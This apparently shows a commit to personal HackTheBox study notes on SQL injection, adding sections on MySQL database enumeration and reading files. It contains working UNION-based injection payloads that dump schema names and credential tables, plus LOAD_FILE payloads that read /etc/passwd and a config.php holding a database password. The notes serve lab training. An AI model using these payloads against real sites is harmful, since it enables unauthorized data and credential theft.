

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/SQLInjectionFundamentals/SQLInjection.md, the part around the change. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Reading files

```diff
--- a/Modules/SQLInjectionFundamentals/SQLInjection.md
+++ b/Modules/SQLInjectionFundamentals/SQLInjection.md
@@ -244,7 +244,65 @@ The answer is to run `cn' UNION select 1,user(),3,4-- -`
 
 ## Database Enumeration
 
+This section covers how to perform database enumeration of a databases once we have found a sql injection. Since this covers MySQL, it only covers how to verify if we are working with them.
+
+For that we can use SELECT @@version when we have full output. We can expect something like 10.3.22-MariaDB-1ubuntu1, or an error if its not MySQL.
+If we only have numeric output, we can use SELECT POW(1,1), and we can expect 1 as the output if we are on MySQL, or an error if not.
+Of if we have no output we can use, SELECT SLEEP(5) which will cause the page to wait 5 seconds before displaying.
+
+After we know we are on MySQL, we can start our enumeration. Our enumeration relies on the INFORMATION_SCHEMA database to do our work. So the first thing we can do is run:
+`SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;` Which will display all databases.
+
+So for our example sql injection it would look something like:
+`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
+
+Then we want to know which of these databases we are already working on so we can use database(), like:
+`cn' UNION select 1,database(),2,3-- -`
+
+Now we know which db we are on, we can start checking the other dbs, using the . operator.
+
+The first thing we want to knoiw is the tables in the other databases, which we can find in the TABLE_SCHEMA and TABLE_NAME columns in INFORMATION_SCHEMA.
+
+For our example we can use:
+`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`
+
+Finally we want to know what the names of the columns in the tables we are interested in are. For this we can use COLUMN_NAME in INFORMATION_SCHEMA.
+
+For our example we can use:
+`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`
+
+Then once we know what table we want we can just use our union select to get the information.
+`cn' UNION select 1, username, password, 4 from dev.credentials-- -`
+
+The question in this section was:
+What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?
+
+To answer this, I first ran `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -` to get the tables that are relevant.
+
+Then I ran `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -` to get the relevant columns.
+
+Then I ran `cn' UNION select 1, username, password, 4 from ilfreight.users-- -`
+
 ## Reading Files
+
+This page covers how to check what user we are and see if we have file read permissions.
+
+In MySQL we can use `SELECT USER()` to determine our user.
+We can use `SELECT super_priv FROM mysql.user` to determine if we have super admin priviliges.
+
+and we can use `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` to get a list of all of our priviliges.
+
+To load a file we can do `SELECT LOAD_FILE('/etc/passwd');`
+
+We can also get the source code of the page we are on using something like:
+`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`
+
+The question for this section is:
+We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.
+
+To get this, we can look at the page source of the search.php page and notice they are importing a config.php file. Then all we need is run: `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -`
+
+That gives us the source of that file and the password is in the page.
 
 ## Writing Files
 
```
